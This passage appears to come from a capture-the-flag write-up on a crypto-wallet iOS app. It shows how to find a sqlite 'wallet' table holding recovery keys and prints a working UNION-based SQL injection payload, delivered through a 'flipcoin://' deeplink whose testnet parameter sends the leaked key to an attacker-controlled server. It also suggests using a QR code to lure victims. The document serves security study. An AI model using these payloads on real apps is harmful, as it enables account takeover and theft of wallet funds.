

Then, I've used `Fliza` in order to inspect the application data directory, searching for a sqlite database:



In the `Documents` directory I've found what I was looking for:



This database contains the table `wallet`:



Which contains the following data:



Therefore, `wallet`'s schema is the following:

- `id` - Incremental Integer - not shown in the picture
- `address` - String 
- `currency` - String
- `amount` - Number
- `recovery_key` - String

When running:

```shell
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0&testnet=http://192.168.1.85:8000"
```

the applications sends to the server a JSON such as:

```json
{"jsonrpc":"2.0","method":"web3_sha3","params":["0x252B2Fff0d264d946n1004E581bb0a46175DC009", "111120a58098a188ff60e0949d3102e9cc38b61701065c72f8aed205e76f245e"],"id":1}'
```

In the `params` field appears to be present the `address` value. 

The following payload will then leak the recovery key of the user by performing a UNION-based SQL Injection: 
- `0%20AND%201%3D0%20UNION%20SELECT%20id%2Crecovery_key%2Ccurrency%2Camount%2Crecovery_key%20FROM%20wallet%20LIMIT%201%20OFFSET%200--`
-  which URL-decoded form is `0 AND 1=0 UNION SELECT id,recovery_key,currency,amount,recovery_key FROM wallet LIMIT 1 OFFSET 0--`

The payload has then been tested as follows:

```shell
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0%20AND%201%3D0%20UNION%20SELECT%20id%2Crecovery_key%2Ccurrency%2Camount%2Crecovery_key%20FROM%20wallet%20LIMIT%201%20OFFSET%200--&testnet=http://192.168.1.85:8000"
```



A threat actor could, for example, generate a QR code with the previous deeplink, inducting the victim to scan it and taking over its account by mean of the leaked recovery key.